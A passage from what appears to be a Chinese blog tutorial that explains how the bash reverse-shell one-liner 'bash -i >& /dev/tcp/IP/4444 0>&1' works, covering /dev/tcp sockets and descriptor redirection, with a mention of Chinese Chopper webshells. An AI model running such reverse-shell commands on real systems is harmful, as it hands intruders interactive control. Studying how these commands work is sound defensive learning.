 

![](https://img-blog.csdnimg.cn/2019072713394969.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



注：只有拥有 /bin/bash 的用户，才能使用该命令，如apache等web用户，无法使用该命令(以下是使用菜刀连接的webshell，获取到的 shell 是 apache 的shell)



![](https://img-blog.csdnimg.cn/20190727134148927.png)



**那么，这条命令的原理是什么呢？**



首先，bash -i 是打开一个交互式的bash终端。传送门—> [Linux中的shell和bash](https://blog.csdn.net/qq_36119192/article/details/84641554)



/dev/tcp/ 是Linux中的一个特殊设备，打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。所以，不难理解，/dev/tcp/192.168.10.32/4444   这条命令是意思就是和192.168.10.32主机的4444端口建立一个socket连接。传送门—> [Socket套接字和Sockes协议](https://blog.csdn.net/qq_36119192/article/details/83825685)



那么，最难的来了，**\>&**  和  **0>&1** 是什么意思呢？



要想了解  >&  和  0>&1 ，首先我们了解一下Linux文件描述符和重定向。



linux shell下常用的文件描述符是：



*   标准输入   (stdin) ：代码为 0 ，使用 < 或 << 

*   标准输出   (stdout)：代码为 1 ，使用 > 或 >> 

*   标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>



而通过查阅资料，发现  **>&** 和 **&>** 两者一个意思，都是将标准错误输出合并到标准输出中。



意思就是，如果我们执行一个命令，比如 ls -lh > test ，这样的话，test文件中只会保存我们执行这个命令正常的结果



而如果我们执行命令 ls -lh  >& test 或者 ls -lh &> test  ，这样的话，test文件中既会保存我们执行这个命令正常的结果，也会保存我们执行这个命令出错了的结果。



所以，当我们执行命令：bash -i >& /dev/tcp/192.168.10.32/4444    时，他会与192.168.10.32的4444号端口建立一个socket连接，把bash的标准输出和标准错误输出发给192.168.10.32。也就是获得了他的shell，但是192.168.10.32却不能进行操作。



而通过查阅资料发现， **0>&1**  和   **0<&1**  也是一个意思，都是将标准输入重定向到标准输出中。所以加入 0>&1 的话，就可以接受用户的输入了。



所以，结合上面的：bash -i >& /dev/tcp/192.168.10.32/4444  0>&1   命令是意思是：与192.168.10.32的4444端口建立一个socket连接，把bash的标准输出和标准错误输出发给192.168.10.32。并且可以接受输入，也就是可以进行交互式操作！
